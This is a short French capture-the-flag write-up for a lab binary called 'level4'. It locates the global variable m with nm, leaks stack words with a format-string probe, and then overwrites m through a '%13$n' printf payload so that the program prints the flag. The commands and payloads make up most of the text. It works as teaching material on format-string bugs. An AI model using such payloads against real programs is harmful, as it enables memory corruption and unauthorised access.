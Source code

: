#  LEVEL - 4

- Nous voyons dans le code source que la variable que nous devons ovewride est m. Avec la commande `nm` nous pouvons afficher les addresses.

<pre>
$> nm level4
...
<strong>08049810 B m</strong>
080484a7 T main
08048457 T n
08048444 T p
...
</pre>

- Nous avons l'adresse qui nous interesse. En litle indian: 10 98 04 08. Nous devons alors chercher l'endroit exacte de l'adresse grace au printf.

<pre>
$> python -c "print ('AAAA' + '\x10\x98\x04\x08' + '%x ' * 13)" | ./level4
AAAAb7ff26b0 bffff734 b7fd0ff4 0 0 bffff6f8 804848d bffff4f0 200 b7fd1ac0 b7ff37d0 41414141 <strong>8049810</strong>
</pre>

- On voit que dans la source il faut que m soit egal a 16930116 pour que le programe execute un cat sur le flag. Grace au %13\$n nous prenons la 13e adresse (soit l'adresse de la variable m que nous devons override).

<pre>
$> python -c "print ('AAAA' + '\x10\x98\x04\x08' + '%16930108d'+ '%13\$n')" | ./level4 | tr -d ' '
</pre>

- Il suffit alors d'ouvrir le `/tmp/output` avec vim pour voir le flag. (attention au cat ^^).
